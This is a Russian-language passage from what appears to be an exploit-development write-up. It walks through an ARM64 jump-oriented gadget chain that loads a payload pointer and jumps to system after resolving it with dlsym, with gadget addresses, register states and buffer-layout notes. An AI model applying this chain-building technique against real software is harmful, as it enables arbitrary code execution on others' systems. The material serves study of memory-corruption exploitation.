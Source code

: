 После вызова **dlsym** было решено вернуться к Jump-oriented подходу, так как было недостаточно гаджетов, оканчивающихся на **ret** и не использующих X8 и X19. Поэтому гаджет 6 передает управлению гаджету 7 и т.д.

После гаджета 6:
```asm
X0  : 0x00000078646784d8 *buf2 (указатель на buf2)
X8  : 0x00000078646784f8 [гаджет 7]
```

```asm
0x000000000012f4f0: ldr x8, [x0, #0x38]; загрузка **payload в x8
                    ldr x1, [x8, #0x18]; загрузка в x1 адреса гаджета 8
                    br x1; переход на гаджет 8
```
Гаджет 7 (загрузка в X8 двойного указателя на строку с полезной нагрузкой - аргумента **system**)

После гаджета 7:
```asm
X1 : 0x0000007864678530 [гаджет 8]
X8  : 0x0000007864678510 **payload (указатель на указатель на строку с полезной нагрузкой в конце буфера)
```

```asm
0x00000000000c45a4: ldr x0, [x8]; загрузка *payload в x0 (аргумента system)
                    ldr x3, [x8, #0x10]; загрузка в x1 адреса CALL_SYSTEM
                    br x3; переход на CALL_SYSTEM
```
Гаджет 8 (инициализация аргумента функции **system**)

После гаджета 8:
```asm
X0 : 0x0000007864678518 *payload (указатель на строку с полезной нагрузкой в конце буфера)
X3 : 0x0000007864678528 адрес CALL_SYSTEM
```

CALL_SYSTEM - обычный безусловный переход по адресу в X6 (так как адрес **system** записался в X0)

```asm
0x00000000000a28a0: br x6;
```
CALL_SYSTEM

На рис. 3.12 приведено наполнение буфера с гаджетами на данном этапе. Аналогично buf, *buf2 указывает на buf2, buf2 указывает сам на себя. Для размещения *buf2 пришлось сместить адрес начала массива с указателями на функции для **u_cleanup_60** на 0x8 (соответственно изменился offset для вызова **u_cleanup_60**)
